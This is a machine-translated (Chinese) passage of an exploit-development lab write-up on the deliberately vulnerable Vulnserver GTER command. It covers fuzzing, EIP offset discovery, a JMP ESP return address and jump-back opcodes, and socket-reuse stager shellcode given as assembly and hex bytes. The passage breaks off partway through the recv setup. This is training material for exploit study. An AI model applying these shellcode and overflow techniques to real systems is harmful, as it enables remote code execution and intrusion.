# Vulnserver —第 6 部分

> 原文：<https://infosecwriteups.com/expdev-vulnserver-part-6-8c98fcdc9131?source=collection_archive---------0----------------------->


# Vulnserver —第 6 部分(GTER — EIP 覆盖+套接字重用利用)

这将是第六个`vulnserver`漏洞系列。这次我们将模糊和利用易受攻击的命令`GTER`。我们将通过`EIP`覆盖来识别崩溃点。

# 实验室环境

*   **操作系统:** Windows 7 (x86)
*   **调试器:** OllyDbg，WinDbg (mona.py)
*   模糊器:模糊器
*   **目标:** Vulnserver — `GTER`命令(EIP 覆盖+限制字符)

**详细的实验室设置指南可以在* [*这里找到*](https://medium.com/@bigb0ss/expdev-vulnserver-part-1-ba35b9e36478)

*   Vulnserver —第一部分

# 初步侦察

让我们快速检查一下`GTER`命令是做什么的。



GTER 命令

# 起毛

因为我们已经有了之前从[第 1 部分](https://medium.com/@bigb0ss/expdev-vulnserver-part-2-46de4dd7bdde)创建的模糊化脚本，我们可以只为`GTER`命令的模糊化器做一些小的修改。



来源:[fuzz _ gter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GTER%20-%20EIP%20Overwrite/fuzz_gter.py)

像往常一样，让我们用 OllyDbg 连接`vulnserver`。然后，运行我们的 fuzzer。

```
**### Running the Fuzzer**
C:\Users\bigb0ss\Desktop\scripts\GTER>python fuzz_gter.py
```

运行我们的 fuzzing 脚本几秒钟后，`vulnserver`崩溃了。从 OllyDbg 的崩溃中，我们可以清楚地看到`GTER`命令和一定数量的字符导致了崩溃。



初始碰撞

## 模糊分析

从 OllyDbg 上的崩溃来看，大约是 160 个字符导致了`GTER`命令的崩溃。这次我们将跳过 Boofuzz DB 文件分析。

# 剥削

## 初始崩溃概念验证

让我们创建一个 python 脚本来重现崩溃。



来源:[crash _ gter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GTER%20-%20EIP%20Overwrite/crash_gter.py)

启动`vulnserver`并将其连接到 OllyDbg。然后，运行`crash_gter.py`脚本。我们成功地用我们的 PoC 脚本重现了崩溃。



再现车祸

## 寻找偏移

我们的下一步通常是找到一个偏移量来控制崩溃时的`EIP`。让我们首先创建 160 个独特的角色。我们将使用 WinDbg 和 mona.py 的`pattern_create`模块来完成这项工作。

运行 WinDbg 后，键入以下命令来加载 python 模块并创建模式。

```
**### Loading Python Extension of WinDbg**
.load pykd.pyd**### Mona.py Pattern_create**
!py mona pattern_create 160Hold on...
[+] Command used:
!py mona.py pattern_create 160
Creating cyclic pattern of 160 bytes
**Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2A**
[+] Preparing output file 'pattern.txt'
```

让我们用创建的模式更新 PoC 脚本，并再次针对`vulnserver`运行脚本。



来源:[pattern _ gter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GTER%20-%20EIP%20Overwrite/pattern_gter.py)



Pattern_gter.py 结果

`EIP`现在被值`66413066`覆盖。让我们再次使用 mona.py 来查找偏移量。这次，我们将使用名为`pattern_offset`的模块。

```
**### Mona.py Pattern_offset**
!py mona pattern_offset 66413066
```



偏移= 151

它发现偏移量为 151。让我们再次更新我们的 PoC 脚本，并通过对`vulnserver`运行它来确认偏移量。

## 确认偏移


来源:[offset _ gter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GTER%20-%20EIP%20Overwrite/offset_gter.py)



确认偏移

这种偏移确实是正确的。现在，我们都准备好在崩溃的时候控制`EIP`。

## 寻找 JMP

作为一个常见的`EIP`重写 BOF 漏洞，我们现在需要在应用程序中找到一个`JMP ESP`指令。

这次让我们将 vulnserver 附加到 WinDbg，这样我们就可以使用 mona.py 在应用程序的 dll 中找到`JMP ESP`。我们将再次使用`-cpb`标志来排除任何包含`\x00`的地址。(默认情况下，它还会在非 ASLR 或非 Rebase 模块中进行搜索。)

```
**### Loading Python Extension of WinDbg**
.load pykd.pyd**### Mona.py Finding JMP ESP**
!py mona jmp -r esp -cpb '\x00'
```



寻找 JMP ESP

让我们使用其中一个地址`0x62501205`，并更新我们的 PoC 脚本。并再次将 vulnserver 附加到 OllyDbg，在`0x62501205` ( `JMP ESP`)地址设置一个断点。



JMP ESP 处的断点

当我们运行 PoC 脚本时，我们确实找到了`JMP ESP`地址和断点。



来源:[jmp-esp _ gter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GTER%20-%20EIP%20Overwrite/jmp-esp_gter.py)

一旦我们运行了`jmp-esp_gter.py`脚本，我们将成功地点击`JMP ESP`。(确保在`JMP ESP`位置`0x62501205`设置断点)

当我们按下`F7`来步进指令时，我们成功地跳到了`ESP`，但是我们遇到了一个问题。我已经更新了上面的`jmp-esp_gter.py`脚本，在`eip` ( `JMP ESP`地址)后提供 100 个“C”。当我们运行这个脚本时,“C”被截短到只有 20 个字节。我们需要创造性地思考，从这个有限的空间逃到更大的土地上。



为了避免这种情况，我们的攻击计划如下:

**【第一阶段外壳代码】**利用 20 字节的空间将第一阶段外壳代码引入 JMP，返回到上面带有“A”的更大空间

**【第二阶段 shell code】**接下来，我们将学习并介绍一个套接字重用漏洞，以获得更大的空间来添加我们的最终绑定 shell。

**【第三阶段 Shellcode】**最后，在更大的篇幅内介绍一下 bind shellcode。

# 第一阶段外壳代码(JMP 背面)

在`JMP ESP`指令之后，我们将有大约 20 字节的空闲空间。我们将引入下面的一小块操作码，将我们当前的位置重定向到上面带“A”的区域:

```
**### JMP Back Opcode**
PUSH ESP                 **; Pushing the current address on the ESP** 
POP ECX                  **; Pop the current stack address on the ECX**
SUB ECX, 0x64            **; Subtract 64 from the current ECX address**
JMP ECX                  **; Jump to adjusted ECX address**
```



JMP 返回操作码

一旦我们跳过指令，我们将成功地跳到我们控制的“A”位置。


JMP 回来了

**这里的一个提示是，从 OllyDbg 中，我们可以简单地二进制复制我们编写的操作码，以便在我们的漏洞利用脚本中使用它们。*

让我们用第一阶段外壳代码更新我们的 PoC 脚本。



来源:[first _ stage _ gter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GTER%20-%20EIP%20Overwrite/first_stage_gter.py)

# 第二阶段外壳代码(套接字重用漏洞)

> 对于这一个，老实说我以前不知道什么是套接字重用漏洞利用，所以我在这里大量利用聪明人的博客:)感谢 [@epi052](https://epi052.gitlab.io/notes-to-self/blog/2020-05-22-osce-exam-practice-part-seven/) 和[@ iam rasting](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/)。我强烈推荐你阅读他们的博客了解更多细节。

## 什么是套接字重用漏洞利用？

简单地说，如果我们可以访问一个套接字(连接到另一台主机)，我们可以使用像`send`或`recv`这样的函数来执行网络操作。这使得套接字重用利用成为可能。

套接字重用漏洞也被称为单向外壳代码，它帮助用户在进行基于网络的攻击时绕过限制性的防火墙规则。根据目标系统上的防火墙规则，有许多不同的单向外壳代码技术，如反向连接外壳代码或重新绑定套接字外壳代码，但我们将专注于套接字重用外壳代码，以完成其余的`GTER`命令利用。



来源: [Win32 单向外壳代码 Blackhat 演示文稿](https://www.blackhat.com/presentations/bh-asia-03/bh-asia-03-chong.pdf)

对于我们的第二阶段有效载荷，我们将做以下工作:

**【步骤 1】**连接到`vulnserver`时识别文件描述符

> **文件描述符**是用于访问文件或其他输入/输出资源的抽象指示符，例如管道或网络套接字。(来源:[https://en.wikipedia.org/wiki/File_descriptor](https://en.wikipedia.org/wiki/File_descriptor))

**【步骤 2】**在内存中找到一个位置来引入我们的 bind shell 的第三阶段有效负载

**【步骤 3】**利用文件描述符调用`WS2_32.recv`

**【步骤 4】**通过使用现有连接向`vulnserver`发送第三阶段有效载荷，完成我们的最终利用

## 正在查找文件描述符

为了找到文件描述符，我们需要理解`recv`函数的语法。



来源:[https://docs . Microsoft . com/en-us/windows/win32/API/Winsock/nf-Winsock-recv](https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-recv)

```
**### 'recv' Function Parameters Explained****"SOCKET s"** : The descriptor that identifies a connected socket
**"char *buf"**: A pointer to the buffer to receive the incoming data
**"int len"**  : The length of the buffer pointed to by the *buf* 
             parameter
**"int flags"** : A set of flags that influences the behavior of this 
             function
```

知道了这些，我们需要在`vulnserver`程序中找到`WS2_32.recv`函数。为此，让我们使用 OllyDbg 的内存映射模块来分析`vulnserver`的代码区域。



OllyDbg 存储器映射

向下滚动一点，你可以在`0x00401953`找到`WS2_32.recv`函数的存储位置。



WS2_32.recv

为了获得文件描述符值，让我们在`0x00401953`的`WS2_32.recv`函数位置设置一个断点，并运行我们的 PoC 脚本 *first_stage_gter.py.*



在 0x00401953 处设置断点



套接字文件描述符

当它命中断点时，我们可以清楚地看到代表`recv`函数语法的堆栈。但是有一点需要注意的是，套接字存储的地址每次都可能会改变(**您可以尝试重复相同的步骤来验证这一点*)。所以基本上不是硬编码文件描述符地址，我们需要通过计算从`ESP`到当前地址的距离来动态检索它。

为此，我们需要在存储套接字当前地址的`ESP`之前获取`ESP`地址。我们可以简单地发现第一个`ESP`地址就在`WS2_32.recv`函数的上方，这里有`mov EAX, PTR [EBP-420]` → `mov ESP, EAX` 指令。



让我们检查一下`[EBP-420]`地址在哪里。



转到[EBP-420]



[EBP-420] = 0x0176FB68

为了计算距离，

`First ESP (0x0176FB68) — Address of Socket ESP (0x0176F9E0) = 0x188`


所以插座会在`ESP + 0x188`找到。这将动态地找到文件描述符的地址。

让我们用操作码来创建它:

```
**### Finding File Descriptor (ASM)**PUSH ESP      **; Push ESP on the stack**
POP EAX       **; POP ESP into EAX**
ADD AX, 0x188 **; Add 0x188 to EAX to align it to address of socket 
                ESP (58 in our example)**
PUSH [EAX]    **; Push address of EAX on the stack**
POP ESI       **; POP the address of EAX into ESI to save the register**
```



文件描述符

```
**### Finding File Descriptor (Shellcode)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
```

## 堆栈指针调整

当我们在上面的文件描述符中查找外壳代码时，我们可以成功地看到`58`确实位于我们的`ESI`寄存器中；但是，我们可以注意到我们的`EIP`地址太靠近当前的`ESP`，这可能会影响我们未来的 stager 代码被覆盖。



为了避免这种情况，我们可以通过执行以下操作来减少 ESP 中的一些堆栈指针。

```
**### Stack Pointer Adjustment (ASM)**SUB ESP, 0x74       **; 116 bytes**
```



```
**### Stack Pointer Adjustment (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
**\x83\xEC\x74          # SUB ESP, 0x74**
```

## 接收(标志和长度)

接下来，我们需要按照其余的`recv`语法推送所有数据。我们将首先把`0`压入堆栈来设置 flags 参数。然后，我们将添加`512`字节(`0x200`)的缓冲区大小，这对于我们的 bind shell 有效负载来说足够了。

```
**### recv - Flags & Len (ASM)**XOR EBX, EBX        **; Zero out EBX**
PUSH EBX            **; Push EBX onto the stack (Set for *Flags*)**
ADD BH, 0x2         **; Set EBX to 0x00000200**
PUSH EBX            **; Push EBX onto the stack (Set for *Len*)**
```

让我们把这些添加到外壳代码中。



```
**### recv - Flags & Len (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
\x83\xEC\x74          # SUB ESP, 0x74
**\x33\xDB              # XOR EBX, EBX
\x53                  # PUSH EBX
\x80\xC7\x02          # ADD BH, 0x2
\x53                  # PUSH EBX**
```

## 接收(缓冲器和插座)

接下来，我们需要将我们的执行重定向到`recv`缓冲区的位置。我们现在的 ESP 是`0x0172F964`。

